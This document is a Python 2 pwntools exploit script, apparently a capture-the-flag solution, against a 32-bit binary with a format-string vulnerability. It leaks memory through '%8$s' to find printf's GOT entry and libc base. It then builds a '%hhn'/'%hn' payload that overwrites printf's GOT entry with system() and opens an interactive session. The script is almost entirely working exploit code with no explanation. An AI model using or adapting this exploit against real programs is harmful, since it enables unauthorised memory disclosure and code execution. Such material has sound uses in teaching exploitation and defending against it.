 ```
def leak(addr):
    payload = "%8$s.TMP" + p32(addr)
    r.sendline(payload)
    print "leaking:", hex(addr)
    resp = r.recvuntil(".TMP")
    ret = resp[:-4:]
    print "ret:", binascii.hexlify(ret), len(ret)
    remain = r.recvrepeat(0.2)
    return ret
# # failed try
# d = DynELF(leak, 0x8048420)
# # dynamic_ptr = d.dynamic
# system_addr = d.lookup('system', 'libc')
# printf_addr = d.lookup('printf', 'libc')
# # dump .text segmentation
# start_addr = 0x8048420
# # leak(start_addr)
# text_seg = ''
# try:
# while True:
# ret = leak(start_addr)
# text_seg += ret
# start_addr += len(ret)
# if len(ret) == 0:
# start_addr += 1
# text_seg += 'x00'
# except Exception as e:
# print e
# finally:
# print '[+]', len(text_seg)
# with open('dump_bin', 'wb') as fout:
# fout.write(text_seg)
log.success('leaking printf_plt_code')
printf_plt_addr = 0x80483E0
printf_plt_code = leak(printf_plt_addr)
printf_got_plt_addr = u32(printf_plt_code[2:6])
log.success('printf_got_plt_addr: %08x' % (printf_got_plt_addr))
log.success('leaking printf_addr')
printf_addr = u32(leak(printf_got_plt_addr)[:4])
log.success('printf_addr: %08x' % (printf_addr))
libc_addr = printf_addr - 0x00049670
system_addr = libc_addr + 0x0003ada0
log.success('system_addr: %08x' % (system_addr))
log.success('test write...')
byte1 = system_addr &amp; 0xff
byte2 = (system_addr &amp; 0xffff00) &gt;&gt; 8
payload = '%' + str(byte1) + 'c' + '%14$hhn'
payload += '%' + str(byte2 - byte1) + 'c' +'%15$hn'
payload = payload.ljust(32, 'A')
print payload
print len(payload)
payload += p32(printf_got_plt_addr) + p32(printf_got_plt_addr + 1)
r.sendline(payload)
r.interactive()
```
